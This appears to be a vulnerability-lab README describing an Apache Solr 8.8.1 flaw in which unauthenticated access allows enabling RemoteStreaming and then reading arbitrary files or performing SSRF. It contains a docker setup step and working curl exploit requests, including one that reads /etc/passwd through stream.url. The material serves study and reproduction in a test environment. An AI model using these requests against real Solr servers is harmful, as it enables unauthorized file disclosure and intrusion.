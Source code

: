 # Apache Solr RemoteStreaming Arbitrary File Reading and SSRF

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open source search server. When Apache Solr does not enable authentication, an attacker can directly craft a request to enable a specific configuration, and eventually cause SSRF or arbitrary file reading.

References:

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## Vulnerability environment

Execute following commands to start a Apache Solr 8.8.1:

```
docker-compose up -d
```

After the environment is started, browser `http://your-ip:8983` to view the Apache Solr.

## Exploit

First, visit `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json` to extract the database name:

![](1.png)

Send the following request, modify the configuration of the database `demo` to enable `RemoteStreaming`:

```
curl -i -s -k -X $'POST' \
     -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
     $'http://your-ip:8983/solr/demo/config'
```

![](2.png)

Then read arbitrary file through `stream.url`:

```
curl -i -s -k'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![](3.png)
